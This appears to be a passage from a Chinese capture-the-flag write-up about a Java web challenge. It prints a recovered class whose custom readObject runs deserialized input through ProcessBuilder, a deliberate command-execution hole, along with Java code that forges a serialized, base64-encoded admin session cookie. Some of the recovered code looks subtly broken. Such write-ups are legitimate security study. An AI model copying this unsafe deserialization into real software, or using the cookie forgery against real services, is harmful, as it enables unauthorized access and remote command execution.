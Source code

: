用于存储用户信息, 会被拿来序列化和base64之后作为cinfo的内容.

Tool.class

```java
package WEB-INF.classes.com.tools;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class Tools implements Serializable {
  private static final long serialVersionUID = 1L;
  
  public static Object parse(byte[] bytes) throws Exception {
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bytes));
    return ois.readObject();
  }
  private String testCall;
  public static byte[] create(Object obj) throws Exception {
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    ObjectOutputStream outputStream = new ObjectOutputStream(bos);
    outputStream.writeObject(obj);
    return bos.toByteArray();
  }
  
  private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
    Object obj = in.readObject();
    (new ProcessBuilder((String[])obj)).start();
  }
}
```

Serializeable接口会去查看当前类中是否定义``writeObject`` ``readObject``如果有的话, 序列化和反序列化就用这两个方法来实现, 否则就用Serializeable 内置的接口去进行序列化反序列化的操作. 

总结起来可能的点

- 读文件
- 反序列化

读文件首先要admin登录才行, 从源码中可以知道用户名用户组, 接下来写java来伪造cinfo.

创建java项目, 拷贝源码, 目录结构如下(由于序列化的时候会带进命名空间信息, 所以一定要对的上)

![image-20200301180703490](/images/image-20200301180703490.png)



Main.java

```java
import java.util.Base64;
import com.tools.Tools;
import com.tools.ClientInfo;

public class Main {
    public static void main(String[] args) {
        try {
            ClientInfo cinfo = new ClientInfo("admin", "webmanager", "B18D77761C9C952BEDB6CDAC4205265B");
            byte[] bytes = Tools.create(cinfo);
            Base64.Encoder encoder = Base64.getEncoder();
            System.out.println(encoder.encodeToString(bytes));
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```